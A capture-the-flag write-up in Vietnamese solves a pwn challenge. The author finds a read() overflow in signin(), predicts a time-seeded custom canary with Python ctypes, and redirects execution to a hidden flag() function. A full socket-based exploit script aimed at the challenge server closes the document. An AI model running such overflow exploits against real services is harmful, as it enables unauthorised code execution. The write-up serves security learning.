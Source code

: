 ### PWN
> nc 203.162.88.114 44444
>[Binary and Source](src.zip)

### Solve

Nhìn vào source code C thì t thấy có hàm `flag()` là in ra flag mà luồng thực thi của chương trình không hè có luồng nào chạy đến hàm này.
Chính vì thế có thể đoán được là t phải Overflow để tràn đến địa chỉ hàm flag.
[](pwn1.png)
Địa chỉ của hàm `flag()` t sử dụng `IDA Pro` để xem thì có là `66666835`
[](pwn8.png)
Nhìn qua `cấu trúc dữ liệu của biến` và một vài `biến toàn cục`:
[](pnw2.png)
Với dữ liệu nêu trên thì ta thấy trong luồng có 2 hàm sử dụng các hàm `read()` là có thể sử dụng để overflow là `signup()` và `signin()`
Tuy nhiên `signup()` các hàm `read()` là an toàn vì giá trị tham số thứ 2 bằng với kích thước của biến.
[](pwn3.png)
Còn hàm `signin()` hàm `read()` ở đây có vẻ không an toàn vì độ dài tham số thứ 2 lớn hơn kích thước biến.
[](pwn4.png)
Sử dụng IDA ta có:
[](pwn7.png)
Biến `pas: bp-10Ch` and `use: bp-8Ch` and `canary = bp-Ch`
> =>> qua đó suy ra có thể Overflow hàm `read(0,ME.usn,255);` vì `0x8C = 140`
Tuy nhiên nếu overflow ở đây thì sẽ bị tràn qua giá trị của biến `canary` mà nếu `canary != tmp` thì chương trình sẽ thực hiện `exit(1)`
[](pwn5.png)
> Câu hỏi đặt ra là làm thế nào để overflow mà vẫn có thể giữ lại giá trị cho biến `canary` thế nên ta phải tính được giá trị của `tmp`
[](pwn6.png)
`tmp` được tính bằng hàm `srand()` với `time(NULL)` trong `C`.
Với python ta `import` thư viện của `C` vào: `from ctypes import CDLL` and `libc = CDLL('libc.so.6')`
```py
now = int(floor(time.time()))
tm = ''
libc.srand(now)
c = 0
while c<4:
  ch =  libc.rand()%0x7f
	if ch >0x20 and ch <0x7f:
	  tm += chr(ch)
		c += 1
```
Ngoài ra thì có thể tính toán các giá trị cần gửi lần lượt là như sau:
```
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent6 = ????
sent7 = "trollpassword\n"
```
Nhiệm vụ là phải tim được `sent6` và với những gì đã có ở trên thì t có thể tính ra được:
```py
sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
```
Sau đây là code hoàn chỉnh:

```py
from math import *
import socket
import time
from ctypes import CDLL
libc = CDLL('libc.so.6')
host = '203.162.88.114'
port = 44444
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent7 = "trollpassword\n"

def re(a):
	a = '0000000'+a.encode('hex')
	a = a[-8:]
	b = ''
	for i in range(4):
		b = a[i*2:i*2+2] + b
	return b.decode('hex')

def pwn():
	sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
	s = socket.socket()
	s.connect((host,port))
	now = int(floor(time.time()))
	tm = ''
	libc.srand(now)
	c = 0
	while c<4:
		ch =  libc.rand()%0x7f
		if ch >0x20 and ch <0x7f:
			tm += chr(ch)
			c += 1
	sent6 = sent6.replace('tmp',tm)
	s.recv(1024)
	s.recv(1024)
	s.send(sent1)
	s.recv(1024)
	s.send(sent2)
	s.recv(1024)
	s.send(sent3)
	s.recv(1024)
	s.send(sent4)
	s.recv(1024)
	s.send(sent5)
	s.recv(1024)
	s.send(sent6)
	s.recv(1024)
	s.send(sent7)
	return s.recv(1024)	

def main():
	while True:
		rs = pwn()
		if "DETECT BOF" in rs:
			continue
		else: 
			print rs
			break

if __name__=="__main__":
	main()
```
